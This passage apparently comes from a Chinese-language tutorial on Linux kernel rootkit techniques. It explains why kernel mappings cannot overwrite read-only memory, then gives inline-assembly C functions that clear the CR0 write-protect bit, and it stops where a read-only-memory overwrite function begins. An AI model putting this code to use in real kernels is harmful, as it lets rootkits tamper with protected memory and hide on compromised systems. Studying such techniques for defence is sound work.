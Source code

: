 > 虽然 direct mapping area 有着对所有物理内存的映射，但是**也根据映射的区域权限进行了相应的权限设置**（例如映射 text 段的页面为可读可执行权限），因此我们无法通过这块区域进行覆写，而需要重新建立新的映射
> 
> 因此 `kmap()` 同样无法帮助我们完成对只读区域的改写，因为其会先检查相应的 `page` 是否已经在 direct mapping area 上有着对应的映射并进行复用 ：(

#### 方法 ②：修改 cr0 寄存器

只读保护的开关其实是由 cr0 寄存器中的 `write protect` 位决定的，只要我们能够将 cr0 的这一位置 0 便能关闭只读保护，**从而直接改写内存中只读区域的数据**

> 这也是上古时期比较经典的一些 rootkit 的实现方案

![](https://s2.loli.net/2023/03/06/UVQJYDI1f4iTFwP.png)

直接写内联汇编即可，这里笔者给出一个通用的改写内存只读区域的代码：

```
static __always_inline u64 nornir_read_cr0(void)
{
    u64 cr0;
 
    asm volatile (
        "movq  %%cr0, %%rax;"
        "movq  %%rax, %0;   "
        : "=r" (cr0) :: "%rax"
    );
 
    return cr0;
}
 
static __always_inline void nornir_write_cr0(u64 cr0)
{
    asm volatile (
        "movq   %0, %%rax;  "
        "movq  %%rax, %%cr0;"
        :: "r" (cr0) : "%rax"
    );
}
 
static __always_inline void nornir_disable_write_protect(void)
{
    u64 cr0;
 
    cr0 = nornir_read_cr0();
 
    if ((cr0 >> 16) & 1) {
        cr0 &= ~(1 << 16);
        nornir_write_cr0(cr0);
    }
}
 
static __always_inline void nornir_enable_write_protect(void)
{
    size_t cr0;
 
    cr0 = nornir_read_cr0();
 
    if (!((cr0 >> 16) & 1)) {
        cr0 |= (1 << 16);
        nornir_write_cr0(cr0);
    }
}
 
static __maybe_unused
void nornir_overwrite_romem_by_cr0(void *dst, void *src, size_t len)
{
```